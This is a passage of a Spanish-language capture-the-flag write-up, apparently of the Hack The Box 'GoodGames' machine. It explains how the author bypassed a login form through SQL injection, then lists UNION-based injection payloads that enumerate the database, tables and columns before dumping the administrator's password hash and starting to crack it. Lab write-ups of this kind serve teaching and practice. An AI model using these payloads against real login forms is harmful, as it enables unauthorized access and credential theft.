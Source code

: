 Y ¡ojo!, vemos que es vulnerable a inyecciones SQL, ya que al enviar la consulta hemos iniciado sesión como **admin** , y hemos  **baypasseado** el panel de inicio de sesión . Así que dumpearé la base de datos, para pillar el **hash** de la cuenta del **administrador**.

Para ello realizaré las siguientes inyecciones.

	- email=' union select 1,2,3,4-- -&password=cds -> Ver el campo al que se muestra por pantalla.
	- email=' union select 1,2,3,database()-- -&password=cds -> Ver la base de datos en uso.
	- email=' union select 1,2,3,(table_name) from information_schema.tables where table_schema="main"-- -&password=cds -> Ver las tablas de la base de datos **main**.
	- email=' union select 1,2,3,(column_name) from information_schema.columns where table_schema="main" and table_name="user"-- -&password=cds -> Ver las columnas que hay en la base de datos **main** cuya tabla se llama **user**.

Por último dumpearemos las credenciales del administrador y los usuarios que dispone la base de datos.

![](/assets/images/htb-writeup-GoodGames/dumpAdmin.png)


# Cracking

Ahora que tenemos el hash, lo crackearemos con el uso de **rainbowtables**.
